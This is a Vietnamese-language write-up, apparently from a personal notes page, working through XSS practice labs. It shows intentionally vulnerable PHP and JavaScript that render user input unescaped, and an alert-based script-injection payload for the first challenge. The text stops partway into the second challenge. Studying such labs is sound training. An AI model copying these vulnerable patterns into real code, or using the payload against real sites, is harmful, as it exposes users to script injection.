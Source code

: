 ```yaml
---
title: Tui làm XSS
tags: write-up
---
```


Một ngày đẹp trời vì thấy mình quá gà khi gặp các lỗi XSS nên mình quyết định tìm kiếm thêm các lab XSS để làm và đây là [trang](https://xss.challenge.training.hacq.me/) mình sẽ dùng để tu luyện thêm kỹ năng XSS của bản thân. Okie Gẹt Gô

# Mục tiêu 

Nhập payload làm cho trang web alert `document.domain`

# Baby XSS 01

```html
<script src="hook.js"></script>
<?php
echo $_GET["payload"];
?>

<h1>inject</h1>
<form>
    <input type="text" name="payload" placeholder="your payload here">
    <input type="submit" value="GO">
</form>

<h1>src</h1>
<?php highlight_string(file_get_contents(basename(__FILE__))); ?>
```

## Phân tích

Đoạn code gây lỗi

```php
echo $_GET["payload"];
```

## Payload

```html
<script>alert(document.domain)</script>
```

# Baby XSS 02
```html
<script src="hook.js"></script>
<script>
    window.addEventListener("load", function() {
        var q = location.hash.substring(1);
        window.query.innerHTML = q == '' ? `Hello!` : (`Hello, ${decodeURI(q)}`);
    });
</script>

<p id="query"></p>

<h1>inject</h1>
<p>Inspect the source code carefully and find where to inject :-)</p>

<h1>src</h1>
```